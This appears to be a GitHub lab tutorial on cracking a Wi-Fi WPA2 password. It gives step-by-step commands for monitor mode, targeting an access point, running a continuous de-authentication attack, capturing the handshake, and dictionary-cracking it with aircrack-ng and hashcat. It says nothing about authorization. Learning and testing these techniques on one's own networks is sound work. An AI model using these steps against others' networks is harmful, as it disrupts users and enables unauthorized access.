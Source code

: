 ```yaml
---

# Wireless Access Point Cracking

## Objective
To capture and decrypt a Wi-Fi access point’s password by capturing and cracking a WPA2 handshake.

## Skills Learned
- Network sniffing
- De-authentication attacks
- Password cracking
- Using Wi-Fi hacking tools (airodump-ng, aireplay-ng, aircrack-ng, hashcat)

## Tools Needed
- **Kali Linux** (or any Linux distro with Wi-Fi hacking tools)
- **Wireless Network Adapter** with monitor mode capability

## Steps

---
```


### 1. Enable Monitor Mode

Monitor mode is essential for capturing packets without needing to connect to a network.

#### 1.1 Identify your wireless card:
```bash
ifconfig
iwconfig
```

#### 1.2 Enable Monitor Mode:
```bash
sudo ifconfig <interface> down
sudo iwconfig <interface> mode monitor
sudo ifconfig <interface> up
```

#### 1.3 If you encounter issues, use `airmon-ng`:
```bash
sudo airmon-ng start <interface>
```

#### 1.4 Kill interfering processes if needed:
```bash
sudo airmon-ng check kill
```

#### 1.5 Verify monitor mode is enabled:
```bash
iwconfig
```

---

### 2. Discover Networks

With your wireless card in monitor mode, it’s time to capture network traffic.

#### 2.1 Scan for all nearby networks:
```bash
airodump-ng <interface>
```
This shows a list of networks and details like BSSID (MAC address) and channel.

#### 2.2 Choose your target network. Note down its BSSID and channel.

#### 2.3 Target one access point:
```bash
airodump-ng -c <channel> --bssid <BSSID> -w <output_file> <interface>
```
- Replace `<channel>` with the target’s channel and `<BSSID>` with the network’s BSSID.
- `<output_file>` is the name of the file to save captured data.

---

### 3. Perform a De-authentication Attack

The purpose here is to disconnect clients so that, upon reconnection, we can capture the four-way handshake.

#### 3.1 De-authenticate clients on the target network:
```bash
aireplay-ng -0 0 -a <BSSID> <interface>
```
- The `-0 0` flag will send deauthentication packets continuously until stopped.

#### 3.2 Stop de-authentication after a few seconds (Ctrl + C) to allow clients to reconnect.

---

### 4. Capture the Four-Way Handshake

To successfully crack the password, we need to capture the handshake, which occurs when a device reconnects to the network.

#### 4.1 Continue running `airodump-ng` (Step 2.3) to monitor the network and capture the handshake.

#### 4.2 Wait for a handshake notification in the airodump-ng window.

#### 4.3 Stop airodump-ng once the handshake is captured (Ctrl + C).

#### 4.4 You’ll see multiple files created with the prefix `<output_file>`. The file ending in `.cap` contains the captured handshake.

---

### 5. Cracking the Password Hash

With the `.cap` file, we can now attempt to crack the password using a brute-force attack with a wordlist.

---

#### 5.1 Prepare the RockYou Wordlist

Kali Linux comes with the large **rockyou.txt** wordlist, which contains over 10 million common passwords.

1. Locate rockyou.txt:
   ```bash
   locate rockyou.txt
   ```
   It should be located at `/usr/share/wordlists/rockyou.txt.gz`.

2. Copy and unzip rockyou.txt (optional):
   ```bash
   cp /usr/share/wordlists/rockyou.txt.gz ~/Desktop
   gzip -d ~/Desktop/rockyou.txt.gz
   ```

---

#### 5.2 Crack the Password with Aircrack-ng

1. Run aircrack-ng using the `.cap` file and rockyou.txt wordlist:
   ```bash
   aircrack-ng -w ~/Desktop/rockyou.txt -b <target_BSSID> <path_to_capture.cap>
   ```
   - Replace `<target_BSSID>` with the target’s BSSID.
   - Replace `<path_to_capture.cap>` with the path to your `.cap` file.

2. Monitor the cracking progress:
   - **Current phrase:** Password currently being tested.
   - **Progress:** Percent of the wordlist checked.
   - **Speed:** Passwords tested per second.
   - **Time left:** Estimated time remaining to test all passwords.

---

#### 5.3 Crack the Password with Hashcat

To crack the password faster, we can use `hashcat`. First, we need to convert the `.cap` file to the `.hccapx` format.

1. **Convert `.cap` to `.hccapx`:**
   - Go to an online converter like [https://hashcat.net/cap2hccapx/](https://hashcat.net/cap2hccapx/).
   - Upload your `.cap` file, convert it, and download the resulting `.hccapx` file.

2. **Run Hashcat**:
   ```bash
   hashcat -a 0 -m 2500 <path_to_hccapx_file> ~/Desktop/rockyou.txt
   ```
   - `-a 0` specifies a dictionary attack mode.
   - `-m 2500` is the hash type for WPA/WPA2.
   - Replace `<path_to_hccapx_file>` with the path to your `.hccapx` file.
   - `~/Desktop/rockyou.txt` is your wordlist.

3. **Monitor Hashcat Output**:
   - Type `s` to check status, speed, and progress.
   - Hashcat may run much faster than Aircrack-ng, especially with GPU acceleration.

4. **Check the Results**:
   - If successful, Hashcat will display the cracked password.
   - You can also see the **hash type** and **speed**. Hashcat often cracks passwords faster than Aircrack-ng, especially with GPU processing.

---

## Final Result

Once the correct password is found, `hashcat` will stop and display it.

> **Note:** The speed of cracking depends on factors such as wordlist size, processor power, and GPU use.

--- 






 
